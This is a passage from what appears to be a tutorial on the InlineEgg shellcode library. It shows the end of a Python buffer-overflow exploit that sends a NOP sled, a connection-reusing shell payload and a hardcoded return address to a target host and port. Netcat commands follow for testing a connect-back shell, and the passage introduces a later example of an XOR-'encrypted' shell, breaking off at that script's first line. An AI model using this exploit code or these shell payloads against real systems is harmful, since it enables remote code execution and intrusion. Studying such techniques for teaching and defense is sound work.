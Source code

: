    # connect to target
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.connect((sys.argv[1], int(sys.argv[2])))

   # create egg
   egg = reuseConnectionShellEgg()

   # exploit

   retAddr = struct.pack('<L',0xbffffc24L)
   toSend  = "\x90"*(1024-len(egg))
   toSend += egg.getCode()
   toSend += retAddr*20

   sock.send(toSend)

main()
---------------------------------------------------------
    This example is not as easy to test, because it needs an already
established connection with the exploited program... however, if we uncomment
the two lines marked with "uncomment for testing", the egg will act as a
connectShellEgg(), but it will be using the reuseConnectShellEgg() technique,
effectively testing what we want to test. So, to test, uncomment the two lines
and:

gera@violent[1]: nc -v -l -p 3333|strace ./tester      # wait for the sent egg and pipe it to tester (strace helps)
gera@violent[2]: nc -v -l -p 3334                      # the egg will connect back to you on port 3334
gera@violent[3]: ./example4.py 127.0.0.1 3333          # "exploit" tester listening on port 3333

    reuseConnectionShellEgg() is a little more complex, take some time to see
how it works. Using egg.micro directly may look confusing at first, but it
should be clear if you don't forget that in the end what you are doing is
assembly.  Read the note about using getpeername() with a buffer, because
that's the key to understand how buffers could be used.

    The next example is the last one, and is a little more complicated, mixing
not only direct uses of egg.micro but also including some externally compiled
assembly to do some stuff which micro and inlineegg can't do (there is no
technical reason why they can't do it, it's just that it was getting too
complex and overstuffed with things not originally there).

    So, the next example is the implementation of an egg that will spawn a
shell and "encrypt" all traffic (simple "encryption", just xor).  I know this
is not the first implementation of an egg like this, not even the second
implementation, but I'm pretty sure it's the first one using InlineEgg :-) [is
it the last using InlineEgg? :-)]

--- example5.py -----------------------------------------
#!/usr/bin/python
